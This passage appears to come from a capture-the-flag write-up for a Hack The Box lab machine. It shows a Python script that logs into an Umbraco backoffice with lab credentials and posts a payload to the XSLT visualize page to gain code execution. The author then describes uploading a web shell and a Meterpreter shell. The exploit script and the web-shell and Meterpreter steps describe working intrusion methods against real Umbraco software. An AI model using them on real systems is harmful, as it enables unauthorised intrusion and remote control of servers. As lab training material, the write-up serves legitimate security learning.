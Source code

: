 ```{.py}
</xsl:template>
</xsl:stylesheet>"""

login = "admin@htb.local";
password="baconandcheese";
host = "http://10.10.10.180";

# Step 1 - Get Main page
s = requests.Session()
url_main =host+"/umbraco/"
r1 = s.get(url_main)
print(s.cookies.get_dict())

# Step 2 - Process Login
url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";
loginfo = {"username":login,"password":password};
r2 = s.post(url_login,json=loginfo);

# Step 3 - Go to vulnerable web page
url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";
r3 = s.get(url_xslt);

soup = BeautifulSoup(r3.text, 'html.parser');
VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];
headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};
data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue" :"","ctl00$body$visualizeDo":"Visualize+XSLT"};
print(data)
# Step 4 - Launch the attack
r4 = s.post(url_xslt,data=data,headers=headers);

print("End");
```
Using this exploit I upload `cmdasp.aspx` which comes preinstalled on kali. This script will allow me to execute commands on the system. Then, using the dashboard I upload a meterpreter shell which I generated using msfvenom.

![upload.png](../../_resources/a6f9f12befa74d9a97667e740ffe41ec.png)
